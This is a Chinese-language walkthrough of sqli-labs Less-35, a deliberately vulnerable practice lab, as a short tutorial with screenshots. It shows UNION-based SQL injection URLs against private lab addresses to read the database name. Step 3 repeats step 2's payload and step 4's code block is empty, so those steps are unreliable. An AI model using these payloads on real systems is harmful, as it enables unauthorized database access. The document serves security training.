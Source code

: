 ```yaml
---
title: Less - 35
date: 2023-03-17T13:31:49Z
lastmod: 2023-03-17T19:56:48Z
---
```


# Less - 35

---

# 通关教程

---

## 1、判断闭合

---

先使用id=1

​​​![image](assets/image-20230317135022-3l82gxg.png)​​​

​​![image](assets/image-20230317135042-36erzzx.png)​​

这里单引号被转义了，我们直接查看源代码

​![image](assets/image-20230317134120-6806deg.png)​

这里也使用了GBK编码，但是我们根据错误信息判断这关为数字型注入，有没有单引号都无所谓，后面只要注意进行16进制转码就可以了-

---

## 2、查看当前数据库

---

```http
http://192.168.1.108/sqli-labs/Less-35/?id=-1 union select 1,2,database()--+
```

​​![image](assets/image-20230317135116-oh20e1o.png)​​

---

## 3、查看security库下的所有表

---

```http
http://192.168.225.132/sqli-labs/Less-35/?id=-1 union select 1,2,database()--+
```

​![image](assets/image-20230317195216-ea6aqj3.png)​

---

## 4、查看security库下的所有表

---

```http
```

​![image](assets/image-20230317195648-lksv9dl.png)​
